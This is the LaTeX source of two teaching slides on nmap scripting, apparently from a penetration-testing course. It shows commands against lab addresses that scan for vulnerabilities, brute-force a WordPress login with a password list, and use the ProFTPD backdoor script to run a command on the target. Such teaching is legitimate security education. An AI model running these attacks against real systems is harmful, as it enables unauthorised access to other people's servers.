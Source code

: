\documentclass[aspectratio=169,xcolor=dvipsnames]{beamer}
\begin{document}
\begin{frame}[fragile]
    \frametitle{Scripts}

    \begin{lstlisting}
 root@kali $\#$ nmap --script=vuln 192.168.56.16
    \end{lstlisting}

    Run all the scripts in the category vulnerability against the target.

    \pause

    \begin{lstlisting}
 root@kali $\#$ nmap --script="http-robots*" 192.168.56.16
    \end{lstlisting}

    Show the content of the \texttt{robots.txt} file.

    \pause

    \begin{lstlisting}
 root@kali $\#$ nmap -sV --script="http-wordpress-brute*" --script-args="passdb=./dict.txt" 192.168.56.16
    \end{lstlisting}

    Brute-force attack a Wordpress login page.

\end{frame}

\begin{frame}[fragile]
    \frametitle{Scripts}

    \begin{lstlisting}
 root@kali $\#$ nmap -sV --script="ftp-proftpd-backd*" 192.168.56.19
    \end{lstlisting}

    Check if the target is vulnerable to a specific vulnerability.

    \pause       

    \begin{lstlisting}
 root@kali $\#$ nmap -sV --script="ftp-proftpd-back*" --script-args="cmd=ls" 192.168.56.19
    \end{lstlisting}

    List the content of a directory. We do this by modifying the arguments of the script.

\end{frame}
\end{document}
